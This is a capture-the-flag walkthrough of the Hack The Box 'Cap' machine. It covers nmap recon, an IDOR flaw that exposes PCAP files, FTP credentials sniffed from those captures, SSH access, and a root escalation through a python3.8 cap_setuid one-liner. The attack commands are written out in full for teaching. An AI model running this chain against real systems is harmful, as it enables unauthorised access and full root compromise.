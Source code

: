 # 🛡️ Hack The Box — CAP (Guided Mode Walkthrough)

**Difficulty**: Easy  
**Category**: Linux, Web  
**Tools Used**: Nmap, FTP, Wireshark, Python, SSH  
**CEH Domains**: Reconnaissance, Scanning, Gaining Access, Maintaining Access, Privilege Escalation  

---

## ⚔️ Phase 1: Reconnaissance

**Goal**: Identify open ports, services, and basic information about the target.

We begin with a simple Nmap scan to discover what’s exposed:

```bash
nmap -sC -sV -v -oN cap-initial.txt 10.10.10.245
```

**Explanation:**
- `-sC` : Run default scripts
- `-sV` : Detect service versions
- `-v` : Verbose output
- `-oN` : Save output to file

**Nmap Results:**
- **FTP (21)** — vsftpd 3.0.3
- **SSH (22)** — OpenSSH 8.2p1
- **HTTP (80)** — Gunicorn server hosting a "Security Dashboard"

---

## 🔍 Phase 2: Scanning & Enumeration

Browsing to `http://10.10.10.245`, we discover a web app that captures "5-second PCAPs" and stores them at `/data/{id}`.

By manually visiting `/data/0`, `/data/1`, etc., we can view historical captures — this is a classic **IDOR vulnerability** (Insecure Direct Object Reference).

Each capture has a **Download** button. We download one of the PCAP files and inspect it.

---

## 📡 Phase 3: Gaining Access

Open the `.pcap` in Wireshark:

```bash
wireshark 0.pcap
```

Apply the filter:
```bash
ftp
```

Within the capture, we discover cleartext FTP credentials:
```
Username: nathan
Password: <REDACTED>
```

Try logging in via FTP:
```bash
ftp 10.10.10.245
```

Success! We can access Nathan’s home directory and see `user.txt`, but we can't upload or execute. So we try:

```bash
ssh nathan@10.10.10.245
```

Using the same credentials: **We're in!**

---

## 🎩 Phase 4: Privilege Escalation

Now with a full shell, we begin enumerating the system.

Check sudo rights:
```bash
sudo -l
```
> User nathan may not run sudo.

Check for SUID binaries:
```bash
find / -perm -4000 -type f 2>/dev/null
```
> Nothing unusual

Check for Linux capabilities:
```bash
getcap -r / 2>/dev/null
```

**Key Finding:**
```
/usr/bin/python3.8 = cap_setuid+ep
```

This means Python can set its user ID to 0 — aka root — without being SUID or needing sudo.

### 🔓 Exploitation:
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Confirm:
```bash
whoami && id
```
> You are now root.

---

## ✅ Summary

| CEH Phase            | Technique                        | Tool(s) Used     |
|----------------------|-----------------------------------|------------------|
| Reconnaissance        | Port scan                        | nmap             |
| Scanning & Enum       | IDOR discovery                   | browser, dir brute|
| Gaining Access        | FTP creds via PCAP               | Wireshark, FTP   |
| Maintaining Access    | SSH shell                        | OpenSSH          |
| Privilege Escalation  | cap_setuid+ep on python3.8       | getcap, Python   |

---

## 🧵 Next Steps

This is the GitHub summary version. For a full beginner-focused breakdown with visuals, tips, CEH exam insights, and commentary—check out the full writeup on [Alien37.com](https://www.alien37.com/posts/htb-cap-walkthrough) _(coming soon)_

---

*Walkthrough by [Alien37](https://github.com/a1i3n37x) — Stay curious. Stay sharp.*

